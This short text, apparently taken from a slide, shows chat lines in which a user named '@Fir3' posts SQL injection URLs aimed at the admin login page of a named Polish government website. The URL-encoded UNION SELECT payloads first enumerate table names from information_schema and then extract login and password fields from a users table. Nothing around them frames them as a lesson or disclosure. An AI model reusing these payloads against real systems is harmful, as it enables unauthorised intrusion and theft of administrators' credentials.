

#
https://www.premier.gov.pl/admin/index.php?do=side&ac=login&id=32%27%20and%201=0%20union%20select%201,
uNHex%28Hex%28table_name%29%29,3,5%20FROM%20
information_schema.columns--%20and%20%271%27%20=%271
03:38 <@Fir3> https://www.premier.gov.pl/admin/index.php?do=side&ac=login&id=32%27%20and%201=0%20union%20select%201,
uNHex%28Hex%28concat%28login,char%2832%29,passwd
%29%29%29,3,5%20FROM%20_users--%20and%20%271%27%20=%271